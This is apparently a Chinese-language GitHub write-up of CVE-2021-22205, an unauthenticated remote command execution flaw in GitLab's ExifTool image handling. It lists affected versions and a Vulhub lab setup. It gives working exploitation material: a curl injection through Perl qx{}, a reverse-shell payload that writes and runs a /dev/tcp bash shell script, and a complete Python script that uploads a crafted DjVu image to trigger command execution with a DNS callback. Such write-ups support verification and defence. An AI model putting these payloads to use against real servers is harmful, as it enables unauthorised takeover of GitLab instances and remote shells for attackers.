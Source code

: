 # CVE-2021-22205：GitLab命令执行漏洞
## 漏洞概述

2021年4⽉15⽇，GitLab官方发布安全补丁更新修复了GitLab命令执行漏洞（CVE-2021- 22205）。由于GitLab中的ExifTool没有对传⼊的图像文件的扩展名进行正确处理，攻击者通过 上传特制的恶意图片，可以在目标服务器上执行任意命令，且发现由于GitLab存在未授权的端点，导致该漏洞在无需进行身份验证的情况下即可进行利用，社区版(CE)和企业版(EE)皆受影响，CVSS评分为9.9。

 GitLab 是一个基于 Web 的 DevOps 生命周期工具，它提供了一个 Git 存储库管理器，可提供 wiki、问题跟踪以及持续集成和部署管道功能。

在 GitLab CE/EE 中发现了一个问题，影响了从 11.9 开始的版本。GitLab 没有正确验证传递给文件解析器的图像文件，这导致了未经身份验证的远程命令执行。

## 漏洞影响
11.9 <= Gitlab CE/EE < 13.8.8
13.9 <= Gitlab CE/EE < 13.9.6
13.10 <= Gitlab CE/EE < 13.10.3

## 漏洞环境
Vulhub:~/vulhub/gitlab/CVE-2021-22205

`docker-compose up -d`

## 漏洞复现

验证POC，需可连通的dnslog.cn

### 命令执行
开启一个服务器

`python3 -m http.server 80`

`command = 'curl http://x.x.x.x'
. qx{"+  command +"} .`

### 反弹shell

`reverseShell = "echo '/bin/bash -i >& /dev/tcp/{listenIp}/{listenPort} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"
. qx{"+  reverseShell +"} .
`
### Dnslog

```python
'''
只用于验证CVE-2021-22205，不需bs4
Uasges：python cve-2021-22205.py -u http://xx.xx.xx.xx
'''
import requests,argparse,re

def check(target_url):
	session = requests.Session()
	flag = 'Failed to process image'
	data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{curl `whoami`.2oi2n4.dnslog.cn} . \\\n\" b \") )                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"

	p = '<meta name="csrf-token" content="(.*)" />'

	try:
		req1 = session.get(target_url.strip("/") + "/users/sign_in", verify=False)
		token = re.search(p,req1.text).group(1)

		headers = {
    		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
			"Connection": "close",
			"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
			"X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}

		req2 = session.post(target_url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)

		if flag in req2.text:
			print("[+] 目标 {} 存在漏洞".format(target_url))
		else:
			print("[-] 目标 {} 不存在漏洞".format(target_url))
	except Exception as e:
		print(e)

def main():
    parser = argparse.ArgumentParser(description='GitLab < 13.10.3 RCE')
    parser.add_argument('-u', '--url', type=str, help=' 目标URL ')

    args = parser.parse_args()

    target_url   = args.url

    check(target_url)

if __name__ == '__main__':
    main()
```

## 参考文章
https://github.com/Al1ex/CVE-2021-22205
https://zhuanlan.zhihu.com/p/439476986
